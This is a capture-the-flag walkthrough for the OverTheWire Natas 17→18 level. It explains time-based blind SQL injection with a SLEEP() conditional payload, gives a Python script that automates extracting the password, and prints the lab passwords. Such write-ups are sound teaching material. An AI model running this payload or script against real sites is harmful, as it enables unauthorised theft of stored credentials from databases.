

# Natas Level 17 → Level 18

### Challenge

**URL: http://natas17.natas.labs.overthewire.org/**

This level presents a **Time-Based Blind SQL Injection**. It is significantly more challenging because the server provides **no visual feedback** whatsoever.

Looking at the source code, the lines that previously printed "User exists" or "User doesn't exist" have been commented out:

```
if(mysqli_num_rows($res) > 0) {
    //echo "This user exists.<br>";
} else {
    //echo "This user doesn't exist.<br>";
}
```

Since we cannot see the result of the query, we must rely on a side channel: **Time**. We will force the database to pause (sleep) if our guess is correct.

---

### Walkthrough

1.  We can inject a conditional statement that executes the MySQL `SLEEP()` function.
    - **Logic:** "If the password for user `natas18` starts with 'a', sleep for 5 seconds. Otherwise, return immediately."
    - **Observation:**
      - If the page takes 5+ seconds to load → The character is CORRECT.
      - If the page loads instantly → The character is WRONG.

2.  We inject into the `username` field. The SQL query structure will look like this:

    `natas18" AND IF(password LIKE BINARY "a%", SLEEP(5), 0) #`
    - `natas18"`: Closes the original username string.
    - `AND IF(condition, true_action, false_action)`: The SQL logic structure.
    - `SLEEP(5)`: The action to take if the password match is found (True).
    - `0`: The action to take if not found (False - instant return).
    - `#`: Comments out the rest of the original query.

3.  Checking response times manually is impractical. Below is a Python script to automate the process by measuring the request duration.

    ```
    import requests
    from string import ascii_letters, digits

    url = "http://natas17.natas.labs.overthewire.org/"
    auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC") # Use current level password
    chars = ascii_letters + digits
    password_found = ""

    print("Extracting password via Time-Based SQLi...")

    for i in range(32):
        for char in chars:
            payload = f'natas18" AND IF(password LIKE BINARY "{password_found + char}%", SLEEP(3), 0) #'

            try:
                r = requests.post(url, auth=auth, data={"username": payload}, timeout=10)

                if r.elapsed.total_seconds() >= 2.5:
                    password_found += char
                    print(f"Found: {password_found}")
                    break
            except requests.exceptions.Timeout:
                # In rare cases, a timeout might also indicate a successful sleep
                pass

    print(f"Final Password: {password_found}")
    ```

4.  Run the script. Note that this extraction will take longer than previous levels (approx. 32 chars \* 3 seconds per char = ~1.5 to 2 minutes minimum) because of the deliberate delays.



---

### Credentials Found

- **Username:** `natas18`
- **Password:** `6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ`
